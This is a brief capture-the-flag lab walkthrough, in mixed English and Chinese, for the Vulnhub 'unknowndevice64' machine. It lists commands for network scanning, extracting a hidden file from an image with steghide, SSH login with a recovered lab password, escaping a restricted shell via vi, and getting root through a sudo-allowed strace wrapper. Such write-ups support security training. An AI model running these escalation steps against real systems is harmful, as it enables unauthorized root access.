 ## 1: Vulnhub Lab Walkthrough

###### #beginner

### **Penetrating Methodology:**

- IP Discovery using netdiscover
- Network scanning (Nmap)
- Surfing HTTP service port
- Finding image File
- Extracting the hidden file from the image
- Logging in through SSH
- Escaping restricted shell (逃避受限制的shell)
- Finding binary in sudoers list
- Getting the root shell and finding the flag

---

`netdiscover`

`nmap -p- -sV 192.168.1.104`

`url:http://192.168.1.104:31337/key_is_hldd3n.jpg`

`steghide extract -sf key_is_h1dd3n.jpg`

使用这个[网站](https://www.splitbrain.org/_static/ook/)将得到的加密的字符串进行解密，得到用户名和密码：`ud64:1M!#64@ud`

`ssh ud64:@192.168.1.104 -p 1337`

`id && echo $SHELL && echo $PATH`

使用vi 时执行命令`:!/bin/bash`

`export SHELL=/bin/bash:$SHELL`

`export PATH=/usr/bin:$PATH`

`sudo -l`

`sudo sysud64 -h | less`

`sudo sysud64 -o /dev/null /bin/sh` [^1]

`id`

[原文](https://www.hackingarticles.in/unknowndevice64-1-vulnhub-lab-walkthrough/)

---

[^1]: 因为我们可以使用sysud64作为root，而sysud64实际上正在运行strace命令。我们可以使用“sysud64”以root用户的身份生成shell。以root用户身份生成shell后，我们切换到根目录

